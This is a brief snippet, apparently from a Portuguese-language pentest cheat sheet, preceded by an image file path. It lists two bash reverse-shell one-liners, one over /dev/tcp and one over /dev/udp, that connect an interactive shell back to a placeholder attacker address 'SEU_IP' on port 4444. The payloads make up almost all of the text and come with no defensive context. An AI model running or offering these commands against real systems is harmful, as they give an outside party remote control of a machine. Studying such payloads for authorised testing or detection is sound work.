 # Método /dev/tcp
/bin/bash -i >& /dev/tcp/SEU_IP/4444 0>&1

# Alternativa UDP (raro)
bash -i >& /dev/udp/SEU_IP/4444 0>&1
